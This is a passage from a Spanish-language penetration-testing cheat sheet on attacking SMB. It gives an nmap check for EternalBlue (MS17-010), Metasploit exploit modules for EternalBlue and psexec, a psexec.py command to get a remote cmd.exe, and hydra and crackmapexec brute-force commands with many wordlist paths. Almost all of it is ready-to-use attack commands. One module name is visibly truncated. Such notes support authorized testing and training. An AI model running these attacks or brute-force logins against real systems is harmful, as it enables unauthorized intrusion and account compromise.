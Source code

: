 <br>

<h3 id="SMB5">Probando Eternal Blue y Usando psexec para Conectarnos Mediante SMB</h3>

```bash
# Escaneo que identifica si el SMB es vulnerable al EternalBlue
nmap --script smb-vuln-ms17-010 -p 445 <IP>


# Módulo de metasploit para aplicar EternalBlue
exploit/windows/smb/ms17_010_eternalblu


# Módulo de metasploit que usa psexec
exploit/windows/smb/psexec


# Usando psexec.py
psexec.py <usuario>@<IP> cmd.exe
```

<br>

<h3 id="SMB6">Aplicando Fuerza Bruta a SMB</h3>

```bash
# Fuerza bruta con hydra
hydra -L <wordlist_usuarios> -P <wordlists_contraseñas> <IP> smb
hydra -l Administrator -P <wordlists_contraseñas> <IP> smb

Ej: -l Administrator -P /usr/share/wordlists/rockyou.txt 192.168.1.15 smb


# Fuerza bruta con crackmapexec
crackmapexec smb <IP> -u <wordlists_usuarios> -p <wordlists_contraseñas>
Ej: crackmapexec smb 192.168.1.15 -u /usr/share/metasploit-framework/data/wordlists/unix_users.txt -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
Ej2: crackmapexec smb 192.168.1.15 -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt


Wordlists:
*Usuarios: /usr/share/metasploit-framework/data/wordlists/common_users.txt
*Usuarios2: /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
*Usuarios3: /usr/share/seclists/Usernames/top-usernames-shortlist.txt
*Usuarios4: /usr/share/metasploit-framework/data/wordlists/unix_users.txt
*Contraseñas: /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
*Contraseñas2: /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt
*Contraseñas3: /usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt
*Contraseñas4: /usr/share/seclists/Passwords/seasons.txt
*Contraseñas5: /usr/share/seclists/Passwords/months.txt
*Contraseñas6: /usr/share/seclists/Passwords/common_corporate_passwords.lst
*Contraseñas nuclear: /usr/share/wordlists/rockyou.txt
```
